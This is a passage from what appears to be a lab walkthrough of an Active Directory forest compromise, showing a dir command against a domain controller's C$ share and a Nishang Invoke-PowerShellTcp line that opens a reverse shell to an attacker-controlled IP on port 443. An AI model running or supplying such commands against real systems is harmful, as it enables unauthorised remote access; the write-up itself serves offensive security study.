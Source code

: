![picture 21](images/3d4935678f5dac3acb5f30bcda9ef2b528ece3627530508151cd96e25be818f8.png)  

<br/>

Try to list the forest DC's root directory:

```
dir \\atomic-dc.atomic.site\c$
```

![picture 22](images/9d1f92e01951a23cfb3eff7c506c6e374f6eab074a9c1af5ca64a95431b560d9.png)  

As shown, we now have the forest dc access.

<br/>

To get a reverse shell, modify the `Invoke-PowerShellTcp.ps1` from Nishang by adding the following in the last line:

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.100.11 -Port 443
```
